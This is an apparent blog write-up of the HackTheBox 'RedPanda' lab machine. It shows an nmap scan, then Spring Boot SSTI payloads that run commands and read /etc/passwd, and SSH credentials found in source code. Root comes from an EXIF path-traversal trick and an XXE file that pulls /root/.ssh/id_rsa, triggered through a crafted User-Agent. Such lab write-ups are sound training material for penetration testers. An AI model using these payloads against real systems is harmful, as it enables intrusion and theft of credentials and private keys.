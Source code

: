 ```yaml
---
title: HTB | RedPanda
author: Zeropio
date: 2022-08-27
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/redpanda
---
```


![HTB Img](/assets/img/hackthebox/card/RedPanda.png)

# Footprinting

We start with a nmap to the discover ports:

```
Nmap scan report for 10.10.11.170
Host is up (0.072s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Sat, 27 Aug 2022 21:13:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
...

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 If we check the webpage we will find the following page:

![Untitled](/assets/img/hackthebox/labs/redpanda/Untitled.png)

# Foothold

We can try several payloads, until we find that  `*{7*7}` the output is `49`.  If we try the following payload:

```jsx
*{class.getResource("").getPath()}
```

We will get **Whitelabel Error Page**. Searching it, we will find that is about **Spring Boot**. The following payload, from PayloadAllTheThings will work:

```jsx
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

It will give us the `/etc/passwd`{: .filepath}. We can use [this]([https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py](https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py)) script to execute a webshell as follows to create our payloads:

```console
zero@pio$ ./ssti-payload.py

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

With this we can generate our payloads to move on, start by getting our user with a `whoami` (and replacing all the `$` by `*` . 

We can search in the config file: `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java` {: .filepath}. There we can see the escaped characters (not the `*` ) and a pair of credentials ( **woodenk**:**RedPandazRule** ), we can try ssh with them:

```console
zero@pio$ ssh woodenk@<IP>
```

# Privilege Escalation

If we run:

```console
woodenk@redpanda:~$ ps aux | grep root

root         866  0.0  0.0   2608   600 ?        Ss   16:54   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

We can see that root user is executing something with our user. Inside the `/opt` {: .filepath} we can see some kind of scripts with the following content:

```bash
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

We can see that it is deleting files with the XML version. If we go back to the webpage, we can see that in the user’s profiles we can download an XML about them.

In the previous file we can found how the XML is exported. If we check on the folder of the script we can find another file that is using the User-Agent:

```java
public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
```

And below the metadata of a file with a *Artist* parameter:

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
```

We could try to do a XXE and aim the metadata of this file to this malicious file. The `exiftool` could be useful to inject metadata inside an image:

```console
zero@pio$ exiftool -Artist="../../../../../../../../../home/woodenk/xxe" dog.jpeg
```

As the program add `_creds.xml` to the file name we just need to name the name before. Create the XML file (must have the same parameters as the others):

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/dog.jpeg</uri>
    <privesc>&xxe;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Call the image:

```console
zero@pio$ curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/dog.jpeg"
```

And download the XML from the user. Check again the XXE and we should have the root RSA there.
